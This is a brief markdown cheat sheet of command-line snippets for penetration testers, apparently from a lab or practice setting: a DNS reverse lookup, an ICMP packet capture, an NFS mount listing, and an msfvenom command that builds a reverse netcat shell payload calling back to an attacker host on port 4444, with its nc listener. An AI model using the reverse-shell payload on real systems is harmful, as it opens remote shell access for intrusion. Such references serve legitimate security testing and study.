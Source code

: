 ```yaml
---
description: Collation of useful general cli commands for pentesters
---
```


# Cli Commands Collation

## Find PTR Owner - Reversal Look Up

```bash
dig 0.168.192.in-addr.arpa. NS
```

## Listent for Ping/icmp on interface

```bash
sudo tcpdump ip proto \\icmp -i eth0
```

## Reverse Netcat Shell

Payload R(row)

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=10.11.19.49 lport=4444 R
```

listener:

```bash
nc -lvp 4444
```

## NFS Show Mount

```bash
showmount -e 10.10.87.232
```
